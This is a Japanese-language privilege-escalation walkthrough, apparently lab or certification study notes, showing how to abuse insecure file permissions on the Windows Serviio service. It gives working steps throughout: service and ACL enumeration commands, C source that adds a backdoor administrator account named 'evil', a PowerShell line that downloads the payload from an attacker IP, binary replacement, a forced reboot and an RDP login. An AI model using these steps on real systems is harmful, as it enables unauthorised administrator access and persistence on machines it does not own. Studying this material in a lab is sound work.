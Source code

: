 # Insecure File Permissions

### Serviioサービスでのケーススタディ

NT権限で実行されるサービスの安全でないファイルパーミッションを悪用する方法

* 攻撃対象ホストのWin32サービスを列挙する

  ```powershell
  Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
  
  ・・・
  Serviio                      Running C:\Program Files\Serviio\bin\ServiioService.exe
  ```

  ※ユーザがダウンロードしたようなexeファイルがないかを確認する。特に`ProgramFIles`配下はユーザダウンロードしたアプリが入るので調査の価値あり

* icaclsを使って、対象サービスのパーミッションを列挙

  ```cmd
  icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
  ```

  権限の見方は以下

  | MASK | PERMISSIONS             |
  | ---- | ----------------------- |
  | F    | Full access             |
  | M    | Modify access           |
  | RX   | Read and execute access |
  | R    | Read-only access        |
  | W    | Write-only access       |

* 置き換え用のexeファイルを作成する

  ```c
  #include <stdlib.h>
  
  int main ()
  {
    int i;
    
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
    
    return 0;
  }
  ```

  * クロスコンパイル

    ```bash
    i686-w64-mingw32-gcc adduser.c -o adduser.exe
    ```

* 攻撃対象ホストに配送し、置き換えする

  ```
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/adduser.exe', 'adduser.exe')
  ```

  ```cmd
  move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
  move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
  dir "C:\Program Files\Serviio\bin\"
  ```

* サービスの再起動を試みる

  ```
  net stop Serviio
  ```

  →権限なし

* Serviioサービスの開始オプションを確認する

  ```cmd
  wmic service where caption="Serviio" get name, caption, state, startmode
  ---
  C:\Users\admin\Documents>wmic service where caption="Serviio" get name, caption, state, startmode
  Caption  Name     StartMode  State
  Serviio  Serviio  Auto       Running
  ```

  ※Autoに設定されており自動的に開始される

* システムの再起動の権限の確認

  ```
  whoami /priv
  
  ----
  PRIVILEGES INFORMATION
  ----------------------
  
  Privilege Name                Description                          State
  ============================= ==================================== ========
  SeShutdownPrivilege           Shut down the system                 Disabled
  SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
  SeUndockPrivilege             Remove computer from docking station Disabled
  SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
  SeTimeZonePrivilege           Change the time zone                 Disabled
  ```

  `SeShutDownPrivilege`の権利があり、再起動可能

* 再起動する

  ```
  shutdown /r /t 0
  ```

* 追加したユーザでログインしなおす

  ```
  rdesktop -g 95% -u evil -p 'Ev!lpass' 192.168.144.10
  ```

  ```
  net localgroup Administrators
  ```

  

